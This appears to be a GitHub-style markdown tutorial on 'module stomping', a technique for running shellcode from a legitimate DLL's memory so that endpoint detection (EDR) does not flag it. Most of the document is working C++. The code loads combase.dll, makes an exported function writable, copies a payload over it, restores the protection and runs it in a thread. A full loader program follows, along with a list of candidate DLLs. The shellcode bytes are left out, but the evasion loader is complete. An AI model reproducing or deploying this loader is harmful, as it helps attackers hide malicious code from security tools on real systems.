



# Unbacked and backed memory allocation

It is known that executing shellcode from **unbacked memory** (`VirtualAlloc`) is a primary indicator for EDR detection. Module Stomping technique  allow as to execute code from **backed memory addresses** associated with legitiamte modules on disk.

By aligning our shellcode with trusted memory regions, we can effectively bypass  many modern detection heuristics.

`VirtualAlloc` creates a privated commited memory `MEM_PRIVATE` + `MEM_COMMIT`. Which is not backed aby any file on disk.



By loading a legitimate DLL into the process, we can overwrite its code section `.text` with our shellcode. Execution will occurs from memory backed by a legitimate DLL file.



# Module Stomping

The module stomping execution flow follows.

1. Load a decoy module:
```cpp
HMODULE hModule = LoadLibrary("combase.dll");
```



2. Resolve a target function address.
```cpp
PVOID pTargetFunc = (PVOID)GetProcAddress(hModule, "CStdStubBuffer_AddRef");
```

3. Change memory protection to Read Write.
```cpp
DWORD oldProtect;	
	VirtualProtect(pTargetFunc, payload_len, PAGE_READWRITE, &oldProtect);
```

4. Overwrite the function memory with the shellcode.
```cpp
memcpy(pTargetFunc, payload, payload_len);
```

5. Restore de protection.
```cpp
VirtualProtect(pTargetFunc, payload_len, oldProtect, &oldProtect);
```

6. Execute from stomped function.
```cpp
HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)pTargetFunc, NULL, 0, NULL);
	WaitForSingleObject(hThread, INFINITE);
	CloseHandle(hThread);
```

Full code:

```cpp
#include <Windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <wincrypt.h>
#pragma comment (lib, "crypt32.lib")
#pragma comment (lib, "advapi32")

unsigned char payload[] = {...};


int main(int argc, char ** argv) {
	int payload_len = sizeof(payload);
	
    // Load a well known library
	HMODULE hModule = LoadLibrary("combase.dll");
	
    // Select a target function to override
	PVOID pTargetFunc = (PVOID)GetProcAddress(hModule, "CStdStubBuffer_AddRef");

    // Change the protection to RW
	DWORD oldProtect;	
	VirtualProtect(pTargetFunc, payload_len, PAGE_READWRITE, &oldProtect);

    // Copy the payload
	memcpy(pTargetFunc, payload, payload_len);

    // Restore the previous protections
	VirtualProtect(pTargetFunc, payload_len, oldProtect, &oldProtect);

    // Execute the function
	HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)pTargetFunc, NULL, 0, NULL);
	WaitForSingleObject(hThread, INFINITE);
	CloseHandle(hThread);
}
```

> **Note**: Use a suitable module in order to copy the whole payload.

## Module Candidates:

```
C:\Windows\System32\mshtml.dll
C:\Windows\System32\edgehtml.dll
C:\Windows\System32\combase.dll
C:\Windows\System32\DXCaptureReplay.dll
```

# References:

* [https://github.com/tyeurada/edrEvasionWorkshop](https://github.com/tyeurada/edrEvasionWorkshop)
